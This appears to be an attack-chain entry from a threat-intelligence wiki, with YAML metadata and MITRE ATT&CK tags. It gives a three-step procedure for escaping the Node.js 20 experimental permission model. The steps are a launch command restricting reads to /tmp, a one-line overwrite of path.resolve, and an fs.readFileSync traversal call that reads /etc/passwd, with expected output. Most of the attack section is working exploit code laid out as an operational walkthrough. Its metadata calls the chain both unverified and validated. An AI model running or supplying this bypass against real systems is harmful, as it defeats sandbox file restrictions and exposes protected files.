

---
tags:
  - path-traversal
  - node.js
  - permission-bypass
  - file-read
  - sandbox-escape
type: attack_chain
tools:
  - '[[tools/Node.js]]'
tactics:
  - '[[Execution]]'
  - '[[Discovery]]'
verified: false
platforms:
  - Linux
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Enable-Node.js-Experimental-Permission-Model]]'
  - '[[procedures/Overwrite-path.resolve-Function]]'
  - '[[procedures/Exploit-Path-Traversal-for-File-Read]]'
step_count: 3
techniques:
  - '[[JavaScript]]'
  - '[[File and Directory Discovery]]'
updated_at: '2025-12-14T17:30:07.394Z'
description: >-
  A multi-stage exploit demonstrating how to bypass Node.js 20's experimental
  permission model by overwriting the path.resolve function, allowing
  unauthorized file reads outside restricted directories.
skill_level: intermediate
impact_level: high
id: 24148738-5e47-4b53-9e43-7ee4644eaedd
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Discovery]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[File and Directory Discovery]]'
---
# Path Traversal Bypass in Node.js 20 Permission Model via path.resolve Overwrite

Multi-stage attack chain demonstrating a complete attack workflow to bypass Node.js 20's experimental permission model through path traversal by overwriting the built-in path.resolve function.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Node.js]]

### Target Environment

- Node.js 20.x runtime on Linux
- Access to file system modules (fs)
- No additional services or ports required

### Initial Access Requirements

- Local execution privileges on a Linux system with Node.js 20.x installed
- No network access needed
- Basic JavaScript knowledge for code execution

## Detailed Attack Procedures

### Step 1: Enable Node.js Experimental Permission Model
procedure: [[procedures/Enable-Node.js-Experimental-Permission-Model]]

**Objective**: Start Node.js with the experimental permission model enabled and restrict file system reads to /tmp to simulate a sandboxed environment.

**Instructions**: Launch Node.js using the --experimental-permission flag and limit FS reads with --allow-fs-read=/tmp/. This sets up the restricted context for the bypass.

Execute [[commands/node-enable-permissions]]:

```bash
node --experimental-permission --allow-fs-read=/tmp/
```

**Expected Output**: Node.js REPL or script execution starts in a permission-restricted mode, where attempts to read outside /tmp would normally fail.

**Success Indicators**:
- Node.js starts without errors
- Permission model is active (verifiable by attempting an unauthorized read, which fails)

### Step 2: Overwrite path.resolve Function
procedure: [[procedures/Overwrite-path.resolve-Function]]

**Objective**: Replace the built-in path.resolve function with a custom one that does not normalize path traversal sequences like '../', preparing for the bypass.

**Instructions**: In the Node.js session, assign a simple identity function to path.resolve to prevent path normalization in the permission checks.

Execute [[commands/overwrite-path-resolve]] within the Node.js REPL:

```javascript
path.resolve = (s) => s;
```

**Expected Output**: No output; the function is silently overwritten. Verify by logging: console.log(path.resolve('/tmp/../etc/passwd')) should return the unnormalized path.

**Success Indicators**:
- path.resolve now returns input unchanged
- No errors during assignment

### Step 3: Exploit Path Traversal for File Read
procedure: [[procedures/Exploit-Path-Traversal-for-File-Read]]

**Objective**: Use the overwritten path.resolve to read a restricted file like /etc/passwd by traversing from the allowed /tmp directory.

**Instructions**: Call fs.readFileSync with a traversal path that bypasses normalization, allowing access to /etc/passwd.

Execute [[commands/readfile-traversal]] within the Node.js REPL:

```javascript
fs.readFileSync('/tmp/../etc/passwd');
```

**Expected Output**: Buffer containing /etc/passwd contents, e.g., <Buffer 72 6f 6f 74 3a 78 3a 30 3a 30 3a 72 6f 6f 74 3a 2f 72 6f 6f 74 3a 2f 62 69 6e 2f 62 61 73 68 0a ... >

**Success Indicators**:
- File contents are read successfully without permission errors
- Buffer output confirms access to restricted file

## Attack Chain Summary

### Key Achievements

1. Enabled restricted permission model in Node.js 20
2. Overwrote path.resolve to disable traversal normalization
3. Bypassed restrictions to read sensitive files like /etc/passwd

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[File and Directory Discovery]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Discovery]]

---

*Last updated: 2023-10-01T00:00:00Z*
